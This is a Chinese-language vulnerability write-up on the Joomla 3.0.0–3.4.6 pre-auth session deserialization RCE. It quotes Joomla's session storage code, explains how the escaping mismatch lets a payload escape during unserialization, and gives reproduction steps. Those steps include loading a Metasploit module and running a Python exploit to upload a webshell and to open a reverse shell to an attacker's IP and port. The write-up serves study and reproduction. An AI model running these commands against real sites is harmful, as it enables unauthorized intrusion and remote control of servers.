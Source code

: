 # Joomla 3.0.0 - 3.4.6 RCE漏洞  20191002

## 概述

本质上是一个Session 反序列化导致的rce，由于joomla对于session的特殊处理，导致漏洞触发并不需要登陆。因此成了 pre-auth RCE。

https://github.com/joomla/joomla-cms/releases/tag/3.4.6

## 原理

漏洞文件：

\libraries\joomla\session\storage\database.php 中的write 和read:

php对session的存储是默认放在文件中，当有活动会话产生使用到session的时候，将会在服务端php设置好的路径写一个文件，文件的内容为默认序列化处理器序列化后的数据。在joomla中则改变了php的默认处理规则，将序列化之后的数据存放在数据库中，这步操作对应的处理函数为```\libraries\joomla\session\storage\database.php 中的write : ```

	/**
     * Write session data to the SessionHandler backend.
     *
     * @param   string  $id    The session identifier.
     * @param   string  $data  The session data.
     *
     * @return  boolean  True on success, false otherwise.
     *
     * @since   11.1
     */
    public function write($id, $data)
    {
        // Get the database connection object and verify its connected.
        $db = JFactory::getDbo();

        $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);

        try
        {
            $query = $db->getQuery(true)
                ->update($db->quoteName('#__session'))
                ->set($db->quoteName('data') . ' = ' . $db->quote($data))
                ->set($db->quoteName('time') . ' = ' . $db->quote((int) time()))
                ->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

            // Try to update the session data in the database table.
            $db->setQuery($query);

            if (!$db->execute())
            {
                return false;
            }
            /* Since $db->execute did not throw an exception, so the query was successful.
            Either the data changed, or the data was identical.
            In either case we are done.
            */
            return true;
        }
        catch (Exception $e)
        {
            return false;
        }
    }


取值的时候使用的操作对应的函数是read：

	/**
     * Read the data for a particular session identifier from the SessionHandler backend.
     *
     * @param   string  $id  The session identifier.
     *
     * @return  string  The session data.
     *
     * @since   11.1
     */
    public function read($id)
    {
        // Get the database connection object and verify its connected.
        $db = JFactory::getDbo();

        try
        {
            // Get the session data from the database table.
            $query = $db->getQuery(true)
                ->select($db->quoteName('data'))
            ->from($db->quoteName('#__session'))
            ->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

            $db->setQuery($query);

            $result = (string) $db->loadResult();

            $result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);

            return $result;
        }
        catch (Exception $e)
        {
            return false;
        }
    }

在存入数据库之前，会将传入数据中的 ```chr(0) . '*' . chr(0)``` 替换为 ```\0\0\0```，原因是mysql数据库无法处理NULL字节，而protected修饰符的字段在序列化后是以 ```\x00\x2a\x00``` 开头的。 然后从数据库中取出来的时候，再将字符进行替换还原，防止无法正常反序列化。

php的序列化机制：php在序列化数据的过程中，如果序列化的字段是一个字符串，那么将会保留该字符串的长度，然后将长度写入到序列化之后的数据，反序列化的时候按照长度进行读取。读取完成以分号结束，接着开始下一个。

上面的情况，入库的时候是 ```\0\0\0```，出库时变成 ```chr(0) . '*' . chr(0)```,这样的话入库时生成的序列化数据长度 ```6(\0\0\0)```，取出来的时候将会成为 ```3(N*N)```，（N表示NULL），这样在反序列化的时候，如果按照原先的长度读取，就会导致后续的字符被吃掉。如果我们能控制两个字段的值，第一个用来吃掉第一个字段和第二个字段中间的部分，第二个字段用来构造序列化利用的payload，那么执行将会把第一个字段开头的部分到第二个字段开始的位置当成第一个字段的内容，第二个字段内容逃逸出来被反序列化执行。此行为已从3.0.0版本引入，并影响到Joomla，直到3.4.6。从3.4.7开始，该代码段仍然存在，但会话已通过base64编码并存储在数据库中。

## 复现

kali msf

kali下msf 目录 /usr/share/metasploit-framework/modules/exploits/multi/php

	cp metasploit_rusty_joomla_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/php

	msfconsole-->reload_all-->search joomla

![](1.png)

使用报错。

使用py脚本验证。

![](2.png)


上传 webshell (默认路径```http://ip/joomla/configuration.php```)

	python3 a.py -e -t ip


反弹shell (测试没成功)

	python3 a.py -e -t target_ip -l local_ip -p port

![](3.png)


## 参考资料

[Joomla 3.0.0 - 3.4.6 RCE漏洞分析记录](https://www.cnblogs.com/magic-zero/p/11643916.html)

[Rusty Joomla RCE](https://blog.hacktivesecurity.com/index.php?controller=post&action=view&id_post=41)

[Joomla 3.4.6 RCE 分析](https://xz.aliyun.com/t/6522)

![](4.png)